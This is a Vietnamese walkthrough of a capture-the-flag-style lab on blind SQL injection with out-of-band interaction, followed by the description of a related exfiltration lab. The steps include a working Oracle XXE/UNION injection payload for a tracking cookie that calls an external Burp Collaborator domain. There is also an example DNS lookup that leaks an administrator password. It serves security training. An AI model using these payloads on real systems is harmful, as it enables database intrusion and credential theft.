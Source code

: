 Đầu vào này đọc mật khẩu của người dùng Administrator, thêm một miền phụ duy nhất của Collaborator, và kích hoạt một truy vấn DNS. Truy vấn này cho phép bạn xem mật khẩu đã được thu thập:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Các kỹ thuật ngoài băng tần (OAST) là một cách mạnh mẽ để phát hiện và khai thác lỗ hổng SQL injection mù, nhờ vào khả năng thành công cao và khả năng trích xuất dữ liệu trực tiếp trong kênh ngoài băng tần. Vì lý do này, các kỹ thuật OAST thường được ưu tiên ngay cả trong những tình huống mà các kỹ thuật khai thác mù khác cũng hoạt động.

> ## Lưu ý:
> Có nhiều cách khác nhau để kích hoạt các tương tác ngoài băng tần, và các kỹ thuật khác nhau áp dụng cho các loại cơ sở dữ liệu khác nhau. Để biết thêm chi tiết, hãy xem bảng gian lận SQL injection.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.
3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một loại mặt hàng bất kỳ trên ứng dụng, ở ví dụ này tôi chọn *Accessories*.
5. Di chuyển tới tab **Collaborator**, chọn **Copy to clipboard** để nhận tên miền tạm thời của BurpSuite Colaborator. Trong lần thực hiện này tôi nhận được tên miền là `tb8ibcag5b2l7soassmoovb9o0usii67.oastify.com`.
6. Quay lại tab **Proxy** và thêm gói tin vào phần cuối của `TrackingId` để thực hiện tấn công:
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//tb8ibcag5b2l7soassmoovb9o0usii67.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

```
7. Chọn **Forward** và tắt **Intercept**, reload lại ứng dụng và thông báo hoàn thành bài lab sẽ hiện lên.

# Lab: Blind SQL injection with out-of-band data exfiltration

## Mô tả bài lab

Bài lab này chứa lỗ hổng SQL injection mù. Ứng dụng sử dụng một cookie theo dõi cho mục đích phân tích và thực hiện một truy vấn SQL chứa giá trị của cookie được gửi.

Truy vấn SQL được thực hiện không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, bạn có thể kích hoạt các tương tác ngoài băng tần với một miền bên ngoài.

Cơ sở dữ liệu chứa một bảng khác có tên là users, với các cột có tên là username và password. Bạn cần khai thác lỗ hổng SQL injection mù để tìm ra mật khẩu của người dùng quản trị viên.

Để giải quyết bài lab, hãy đăng nhập với tư cách người dùng quản trị viên.
